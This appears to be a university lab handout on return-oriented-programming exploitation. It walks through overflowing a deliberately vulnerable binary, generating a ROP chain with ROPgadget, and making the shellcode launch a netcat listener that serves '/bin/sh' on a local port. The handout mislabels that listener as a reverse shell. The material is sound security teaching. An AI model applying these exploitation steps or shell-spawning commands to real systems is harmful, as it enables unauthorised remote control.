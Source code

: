 # Lab 4 - ROP based Exploitation

**Task 1**: Exploit the program and use ROPgadget to generate a ROP shellcode.

**Task 2**: Write using ROPgadget a custom shellcode to spawn a reverse shell.

Setting up the environment:  

0. download ROPGadget and install from: [URL](https://github.com/JonathanSalwan/ROPgadget). Its a github repo, so you can either clone it or (suggested) simple use "Download zip" option. 
1. Download netcat (the latest release of netcat that comes pre-installed in Ubuntu has removed a particular option (-e) that we need.
Having said that, official netcat release still shipped with that option! So, we are not completely artificial ;). [URL:](https://sourceforge.net/projects/netcat/). However, the same is also avaialble [here](../code/nc071.tar.gz).
2. untar it and build: `./configure` and `make` command (**do not do** *make install*!)
3. move `src/netcat` to `/tmp/nc`: `cp src/netcat /tmp/nc` (check if the binary is working as expected `/tmp/nc --help`).
4. Compile [vuln3.c](../code/vuln3.c) as `gcc -fno-stack-protector -m32 -static vuln3.c -o vuln3-32`
5. Find the amount of padding you'll need to overflow the buffer and start overwriting the saved return address.
6. Use ROPgadget to build a ROP shellcode. 

		ROPgadget --binary vuln3-32 --ropchain > out-rop.txt
		
   Have a look at `out-rop.txt`.  You'll see that at the bottom there is a Python program which you can complete to generate your shellcode exploit (in particular the buffer padding).  Run the program generate the exploit and test it works with the vulnerable program.
7. The shellcode in the previous step execve'd `/bin/sh`.  This time we'd like you to run the following command:

		/tmp/nc -lnp 5678 -tte /bin/sh

   This command will spawn a reverse-shell server listening on localhost port 5678 that feeds all the input it gets into `/bin/sh`.  Effectively enabling you to run programs remotely!
We're giving helper files to consult which provide a similar exploit for a different machine: [exploit-nc.py](../code/exploit-nc.py), but you'll need to get it working on *your* machine.  In particular the gadgets, configuration and Python version may be different!
8. Once successful, open another terminal and type:  
```
$/tmp/nc 127.0.0.1 5678
pwd
```

# Hints

1. To figure out the padding needed to overflow the buffer try using binary search.  If you run `perl -e 'print "A"x124, "DCBA"' >input` you can quickly test different inputs. What would you expect to see when you have correctly got control of the return address?  What would you expect to see if you've gone too far compared to not far enough?
2. Can't concatenate strings and bytes?  Just use bytes! `bytes("Your string", "ascii")`.
3. Try and get the exploit chain running first!  Break on the first gadget (In GDB: `b *0x08BLABLA`) and check it is working as expected.  Are things going into the right registers? (In GDB: `si`: step instruction, `i r`: info registers)
4. Once you're convinced the ROP chain is running the `strace` tool is very helpful to debug what system calls *actually* get made by your program.  The `-v` flag will show all the arguments to system calls, `-e trace=execve` to just show `execve` calls.
